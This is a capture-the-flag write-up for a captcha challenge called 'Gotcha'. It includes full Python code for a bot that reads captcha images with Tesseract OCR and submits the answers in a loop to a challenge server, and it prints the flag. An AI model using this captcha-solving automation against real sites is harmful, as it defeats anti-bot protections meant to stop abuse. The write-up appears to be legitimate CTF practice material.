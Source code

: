 # CTF Challenge Writeup: Gotcha

## Challenge Information

**- Name:** Gotcha
**- Category:** Misc
**- Points:** 50
**- Description:** I have designed my own Captcha. If you solve it fast enough I'll give you my flag. Can you help me test it?

![Gotcha-1.png](img/Gotcha-1.png)

## Challenge Analysis

This page contains a captcha that needs to be solved for +1 point, the score is reset every 120 seconds. My attempt was te reverse engineer the complicated cookie, after some time I noticed that this was **not** part of the challenge and I started to write a bot that auto fills in the captcha codes.
*The environment was immensely unstable and with Tesseract not being 100% accurate it took me 2-3 tries to get enough score in under 120 seconds*

## Solution

### Step 1: Analyze the environment

The web page is very simple:
![Gotcha-2.png](img/Gotcha-2.png)

It's case sensitive and gives us +1 score on a correct captcha:
![Gotcha-3.png](img/Gotcha-3.png)


### Step 2: Design a robot that pretends to be human

There are various ways to approach this, I've used to create my own Machine Learning models before. But this time I wanted to use a more simple approach that doesn't require a lot of time, it's just less accurate: **Tesseract**

Simple design:
- Connect to the server
- Save the cookie as a session
- Go into this loop:
	- Check the Captcha with Tesseract (Only uppercase letters)
	- Send a POST request with the Captcha
	- Save the new cookie as a session
	- Print the score
	- Check for any flags in the page
		- `quit()`

### Step 3: The (human) robot

This is the code that has been designed:
```python
import io
import re
import base64
import requests
import pytesseract
from PIL import Image

# TARGET
url = "http://34.124.157.94:5003/"

# TESSERACT SETTINGS
custom_config = r'-c tessedit_char_whitelist=ABCDEFGHIJKLMNOPQRSTUVWXYZ --psm 6'

# ADDED BECAUSE OF INSTABILITY, POSSIBLE RATE LIMITING FOR REQUESTS
headers = { 'User-Agent': 'Captcha BOT, give me the FLAG!', }

# FLAG PATTERN
flag_pattern = r'grey\{.*?\}'

# INITIATE SESSION
session = requests.Session()
response = session.get(url, headers=headers)
session.cookies.update(response.cookies)

# MARKERS FOR IMAGE EXTRACTION
start_marker = 'src="data:image/jpeg;base64,'
end_marker = '"'

# SET INITIAL POST TO NOTHING
text = ''

# START MAIN LOOP
while True:
        # POST DATA
        data = { 'captcha': text }
        response = session.post(url + "submit", data=data, headers=headers)
        
        # EXTRACT IMAGE
        start_index = response.text.find(start_marker) + len(start_marker)
        end_index = response.text.find(end_marker, start_index)
        image_base64 = response.text[start_index:end_index]
        image_data = base64.b64decode(image_base64)
        image = Image.open(io.BytesIO(image_data))

        # SOLVE CAPTCHA
        text = pytesseract.image_to_string(image, config=custom_config)
        text = text.replace('\n', '')

        # CHECK FOR FLAG
        if re.search(flag_pattern, response.text):
            print('FLAG FOUND')
            print(response.text)
            quit()

        # DEBUG INFO (Tesseract is not very accurate, 70-80%)
        score_pattern = r'<h3>Score: (.*?)</h3>'
        score = re.findall(score_pattern, response.text)
        if score:
            print("Score:", score[0])

        # UPDATE SESSION
        session.cookies.update(response.cookies)
```


## Flag

`grey{I_4m_hum4n_n0w_059e3995f03a783dae82580ec144ad16}`

## Conclusion

Always love these kind of challenges, simple but fun. Only downside was the instability of the environment, so it was hard to correctly test the script. (Environment had a lot of DoS moments)

## Resources

- Tool: [pytesseract](https://pypi.org/project/pytesseract/)

## Writeup Author

- Twitter: [@Cyber8RU7U5](https://twitter.com/Cyber8RU7U5)
- GitHub: [Cyber8RU7U5](https://github.com/Cyber8RU7U5)

